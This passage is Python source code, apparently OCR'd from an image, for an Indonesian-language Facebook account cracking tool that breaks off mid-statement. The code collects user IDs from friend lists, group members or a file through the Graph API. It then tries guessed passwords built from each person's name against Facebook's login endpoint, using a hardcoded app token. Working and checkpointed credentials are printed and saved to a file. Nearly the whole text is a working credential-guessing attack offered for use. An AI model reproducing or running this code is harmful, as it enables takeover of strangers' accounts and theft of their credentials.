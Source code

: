 \x1b[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() os.system('clear') print logo print 42*"\033[1;96m=" print "\x1b[1;97m1.\x1b[1;93m Crack dari daftar teman" print "\x1b[1;97m2.\x1b[1;93m Crack dari teman" print "\x1b[1;97m3.\x1b[1;93m Crack dari member grup" print "\x1b[1;97m4.\x1b[1;93m Crack dari file" print "\n\x1b[1;91m0.\x1b[1;91m Kembali" pilih_super() def pilih_super(): peak = raw_input("\n\033[1;97m >>> \033[1;97m") if peak =="": print "\033[1;96m[!] \x1b[1;91mIsi yang benar" pilih_super() elif peak =="1": os.system('clear') print logo print 42*"\033[1;96m=" jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...') r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket) z = json.loads(r.text) for s in z['data']: id.append(s['id']) elif peak =="2": os.system('clear') print logo print 42*"\033[1;96m=" idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m") try: jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket) op = json.loads(jok.text) print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama teman\033[1;91m :\033[1;97m "+op["name"] except KeyError: print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan!" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") super() jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...') r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket) z = json.loads(r.text) for i in z['data']: id.append(i['id']) elif peak =="3": os.system('clear') print logo print 42*"\033[1;96m=" idg=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ') try: r=requests.get('https://graph.facebook.com/group/?id='+idg+'&access_token='+toket) asw=json.loads(r.text) print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name'] except KeyError: print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") super() jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...') re=requests.get('https://graph.facebook.com/'+idg+'/members?fields=name,id&limit=999999999&access_token='+toket) s=json.loads(re.text) for p in s['data']: id.append(p['id']) elif peak =="4": os.system('clear') print logo print 42*"\033[1;96m=" try: idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mMasukan nama file \x1b[1;91m: \x1b[1;97m') for line in open(idlist,'r').readlines(): id.append(line.strip()) except IOError: print '\x1b[1;96m[!] \x1b[1;91mFile tidak ditemukan' raw_input('\n\x1b[1;96m[ \x1b[1;97mKembali \x1b[1;96m]') super() elif peak =="0": menu() else: print "\033[1;96m[!] \x1b[1;91mIsi yang benar" pilih_super() print "\033[1;96m[+] \033[1;93mTotal ID \033[1;91m: \033[1;97m"+str(len(id)) titik = ['. ','.. ','... '] for o in titik: print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1) print print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z') print 42*"\033[1;96m=" def main(arg): global cekpoint,oks user = arg try: os.mkdir('out') except OSError: pass try: a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket) b = json.loads(a.text) pass1 = b['first_name']+'123' data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") q = json.load(data) if 'access_token' in q: print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;92m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;92m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass1 + '\n' oks.append(user+pass1) else: if 'www.facebook.com' in q["error_msg"]: print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;93m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;93m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass1 + '\n' cek = open("out/super_cp.txt", "a") cek.write("ID:" +user+ " Pw:" +pass1+"\n") cek.close() cekpoint.append(user+pass1) else: pass2 = b['first_name']+'12345' data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") q = json.load(data) if 'access_token' in q: print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;92m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;92m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass2 + '\n' oks.append(user+pass2) else: if 'www.facebook.com' in q["error_msg"]: print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;93m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;93m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass2 + '\n' cek = open("out/super_cp.txt", "a") cek.write("ID:" +user+ " Pw:" +pass2+"\n") cek.close() cekpoint.append(user+pass2) else: pass3 = b['last_name'] + '123' data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") q = json.load(data) if 'access_token' in q: print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;92m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;92m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' +